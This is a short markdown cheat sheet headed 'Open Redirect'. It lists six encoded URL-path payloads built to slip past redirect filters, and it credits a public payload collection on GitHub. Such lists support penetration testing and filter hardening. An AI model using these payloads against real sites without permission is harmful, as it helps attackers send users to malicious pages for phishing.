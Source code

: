 ## Open Redirect

```
/%09/google.com
```

```
/%5cgoogle.com
```

```
//www.google.com/%2f%2e%2e
```

```
//www.google.com/%2e%2e
```

```
//google.com/
```

```
//google.com/%2f..
```


**Open Redirect Payloads** by @cujanovic

https://github.com/cujanovic/Open-Redirect-Payloads
